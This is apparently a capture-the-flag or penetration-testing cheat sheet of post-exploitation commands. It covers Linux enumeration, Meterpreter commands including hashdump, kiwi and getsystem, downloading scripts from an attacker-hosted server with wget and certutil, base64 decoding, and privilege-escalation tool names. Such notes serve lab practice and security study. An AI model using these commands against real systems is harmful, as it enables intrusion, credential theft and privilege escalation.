 Bash
Show interesting files in home directory (potential flags):
find /home -printf -type f "%f\t%p\t%u\t%g\t%m\n" | column -t

Check versions of running software (searching for “pam” in this case):
dpkg -l | grep -i pam
sudo -l
history

Get Meterpreter shell from backgrounded shell:
post/multi/manage/shell_to_meterpreter

Meterpreter

getuid
sysinfo
hashdump (if privileged)
shell 
load (tab to autocomplete and get list: kiwi, incognito, etc.)
getsystem (priv esc) 

Windows network stuff
arp -a
netstat -an

Transferring files
------------------
Create HTTP server serving files in current directory on port 8000
python -m SimpleHTTPServer 8000

To download files from above server on linux:
wget 10.0.0.X/filename.sh

To download files from above server on Windows:
certutil -urlcache -f http://10.0.0.X:8000/filename.sh

Encoding and Decoding
---------------------
From base64:
echo "SFRCe3YzcnNpMG5fYzBudHIwbF9hbV9JX3JpZ2h0P30=" | base64 --decode

Scripts and one-liners
----------------------
For loop example: convert each line in text file tomcat.txt to base64 and print output
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done

Print 20th line in file tomcat.txt
sed -n 20p tomcat.txt

Privilege Escalation
--------------------
LinEnum

GTFOBins (linux)

Metasploit: local_exploit_suggester (once you have a session)
